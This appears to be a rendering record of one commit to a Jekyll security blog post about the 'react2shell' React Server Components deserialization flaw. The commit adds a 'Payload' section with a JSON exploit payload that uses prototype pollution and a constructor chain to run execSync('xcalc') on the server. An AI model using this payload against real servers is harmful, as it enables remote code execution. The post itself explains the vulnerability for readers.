

Before and after one commit to 20kilograma/blog, a Jekyll site: the page built from react2shell.md, in a window 1280 px wide and 900 px high, scrolled down 697 px. Shown: the whole window, without its empty margins (108-1170 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some web fonts are replaced; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 1391 px from its top, so only the background shows below that.

Commit message:
Update react2shell.md

```diff
--- a/react2shell.md
+++ b/react2shell.md
@@ -11,8 +11,25 @@
 # >> About
 
 There is a new critical (CVSS 10.0) exploit affecting React. If you haven’t been living under a rock for the last 10 years, you’ve probably heard of React. It is a JavaScript library for building UI, primarily used for FrontEnd web development. React allows developers to create reusable components, efficiently update the UI when data changes, and build complex applications in a structured and maintainable way. <br><br>
-Notice how I said <i>primarily</i> for FrontEnd web development? That's because with releases of React Server Component, its capabilities have shifted but also opened up for attackers to explore for more critical attacking vectors. React Server Component is a special component that only runs on the server. They have a direct connection with the database, then render that component before it is sent to the client, so the server does that "pre-processing" there of some heavy data; that's what its goal is.
+Notice how I said <i>primarily</i> for FrontEnd web development? That's because with releases of React Server Component, its capabilities have shifted but also opened up for attackers to explore for more critical attacking vectors. React Server Component is a special component that only runs on the server. They have a direct connection with the database, then render that component before it is sent to the client, so the server does that "pre-processing" there of some heavy data; that's what its goal is. <br>
 
 # >> Vulnerability
 
-The vulnerability was found in a protocol called Flight, which handles communication between the client and server in React Server Components. It is used to send component data and results back and forth over HTTP. The issue lies in how the server parses user-supplied data. It blindly trusts serialized payloads from the client and deserializes them without sufficient validation. This is where the vulnerability occurs, as it can lead to unsafe deserialization(server-side execution).
+The vulnerability was found in a protocol called Flight, which handles communication between the client and server in React Server Components. It is used to send component data and results back and forth over HTTP. The issue lies in how the server parses user-supplied data. It blindly trusts serialized payloads from the client and deserializes them without sufficient validation. This is where the vulnerability occurs, as it can lead to unsafe deserialization(server-side execution). <br>
+
+# >> Payload:
+<code>
+{
+ "then": "$1:__proto__:then",
+ "status": "resolved_model",
+ "reason": -1,
+ "value": "{\\"then\\":\\"$B1337\\"}",
+ "_response": {
+   "_prefix": "process.mainModule.require('child_process').execSync('xcalc');",
+   "_chunks": "$Q2",
+   "_formData": {
+     "get": "$1:constructor:constructor"
+   }
+ }
+}
+</code>
```
